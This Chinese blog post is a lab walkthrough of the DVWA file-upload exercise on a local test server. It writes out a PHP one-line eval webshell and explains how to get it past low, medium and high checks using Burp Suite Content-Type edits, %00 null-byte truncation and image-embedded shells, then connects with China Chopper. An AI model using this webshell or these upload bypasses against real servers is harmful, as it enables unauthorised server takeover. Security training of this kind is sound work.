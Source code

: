 ```yaml
---
title: dvwa_file upload
categories:
- dvwa
tags:
- file upload
updated: 2018-05-16
---
```


File Upload，即文件上传漏洞，通常是由于对上传文件的类型、内容没有进行严格的过滤、检查，使得攻击者可以通过上传木马获取服务器的webshell权限，因此文件上传漏洞带来的危害常常是毁灭性的，Apache、Tomcat、Nginx等都曝出过文件上传漏洞。 

**low等级:**

可以使用一句话木马和中国菜刀

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_01.png" />



低等级的没有对于上传做任何的过滤或者是防护，所以直接用一句话木马进行上传即可（相关原理可以参照其他大佬的）

首先直接用一个txt里面构造一句话木马即可：（php）：`<?php @eval($_POST['pass']);?>`

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_02.png" />



直接命名为pass.php即可（只是针对low等级），然后上传

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_03.png" />



上传成功，路径如下：`../../hackable/uploads/pass.php succesfully uploaded!`

完整路径为：http://127.0.0.1/dvwa/hackable/uploads/pass.php   密码为：pass（就是一句话中间的密码）

使用中国菜刀进行连接

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_04.png" />



直接连接即可

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_05.png" />







# Medium级：

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_06.png" />



由此可以看到，medium中，限定了文件的上传类型，只允许JPEG或者是png格式的文件，直接上传php文件会显示失败，所以这个时候需要使用burpsuit进行修改包。（法1）

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_07.png" />

将文件修改为pass.png，直接点击上传，然后修改burpsuit中数据

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_08.png" />



!<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_09.png" />

上传成功。

然后显示上传成功，直接使用中国菜刀进行连接即可。





<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_10.png" />

​    法二

在php版本小于5.3.4的服务器中，当Magic_quote_gpc选项为off时（其实不止是这个函数，还有很多），可以在文件名中使用%00截断，所以可以把上传文件命名为hack.php%00.png。如果Magic_quote_gpc函数打开的时候，所有的' " \ NULL 等都会被加上一个反斜线进行转义

可以看到，包中的文件类型为image/png，可以通过文件类型检查。

这个时候直接上传可有：

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_11.png" />

上传成功。



   <img src="{{ site.url }}/assets//blog_images/dvwa_file upload_12.png" />

直接进行连接即可！

法3：使用burpsuit    00截断：

命名文件为：

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_13.png" />



然后使用burpsuit进行拦截，改包

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_14.png" />



在hex中将2e修改为00，然后查看下：

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_15.png" />



这个时候直接进行上传即可。

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_16.png" />



显示上传成功。

**high:**



此时如果继续使用

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_17.png" />

这种格式进行上传的话，会报错。

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_18.png" />



（法一）

构造图片一句话木马，用getimagesize()函数识别测试（注意图片大小尽可能的小，不然在上传的时候会报错）

使用的是notepad++进行在尾部添加一句话木马

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_19.png" />



文件名称是pass.png。然后直接上传，进行连接：

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_20.png" />



法二：将文件头部构造为图片的格式，然后进行%00上传即可：

采用%00截断的方法可以轻松绕过文件名的检查，但是需要将上传文件的文件头伪装成图片

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_21.png" />



然后上传

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_22.png" />



再进行连接：

<img src="{{ site.url }}/assets//blog_images/dvwa_file upload_23.png" />

即可！



部分学习于互联网，中间有不详细的请自行百度，斟酌使用！

​
